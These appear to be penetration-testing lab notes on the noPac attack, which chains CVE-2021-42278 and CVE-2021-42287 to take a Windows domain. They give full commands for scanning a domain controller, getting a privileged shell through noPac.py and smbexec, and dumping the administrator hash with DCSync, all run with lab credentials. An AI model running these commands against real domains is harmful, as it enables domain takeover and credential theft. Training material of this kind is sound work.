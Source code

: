 two CVEs [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) and [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287), allowing for intra-domain privilege escalation from any standard domain user to Domain Admin level access in one single command

We can use this [tool](https://github.com/Ridter/noPac) to perform this attack.

Dependencies: Impacket
```shell-session
git clone https://github.com/SecureAuthCorp/impacket.git

python setup.py install 
```

Scanning for NoPac
```shell-session
sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
```
This could be "noisy" or may be blocked by AV or EDR.

Exploiting to get the shell
```
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```
a `semi-interactive shell session` is established with the target using [smbexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py). Keep in mind with smbexec shells we will need to use exact paths instead of navigating the directory structure using `cd`.

the TGT is also saved in the working directory of the attack host

noPac to DCSync the Built-in Administrator Account
```shell-session
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
```

